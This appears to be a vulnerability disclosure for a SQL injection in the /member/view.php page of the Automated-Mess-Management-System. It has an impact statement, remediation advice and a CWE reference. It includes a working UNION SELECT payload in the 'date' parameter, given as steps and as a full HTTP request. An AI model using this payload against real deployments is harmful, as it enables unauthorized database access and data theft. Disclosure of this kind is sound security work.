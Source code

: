 # boyiddha / Automated-Mess-Management-System - /member/view.php SQL Injection

## Vendor Homepage:
[Automated-Mess-Management-System](https://github.com/boyiddha/Automated-Mess-Management-System)

## Impact
The SQL Injection vulnerability in the Automated-Mess-Management-System's login functionality allows attackers to execute arbitrary SQL queries, potentially leading to unauthorized access to sensitive data or functionalities, including the admin panel. This poses a significant risk of data breaches and unauthorized actions within the system.

## Proof of Concept
Step 1: Login as a member.\
Step 2: Navigate to "/member/view.php?date='+UNION+SELECT+@@version,null,null,'nochizplz',null+%23"\
Step 3: The page will return the database version, confirming the successful SQL Injection.

## HTTP Request Example
``` http request
GET /member/view.php?date='+UNION+SELECT+@@version,null,null,'nochizplz',null+%23 HTTP/1.1
Host: [REDACTED]
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: [REDACTED]
Connection: close
```
## Proof with Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/60700937/66a63326-cc2d-47fe-bb8c-d86ff8256ea7)



## Remidiation
To address this issue, developers should implement strict input validation and utilize parameterized queries to prevent SQL Injection attacks. Additionally, access controls should be properly enforced to limit users' privileges and mitigate the impact of potential injection attacks. Regular security assessments and code reviews can help identify and remediate such vulnerabilities effectively.

## CWE
[CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)
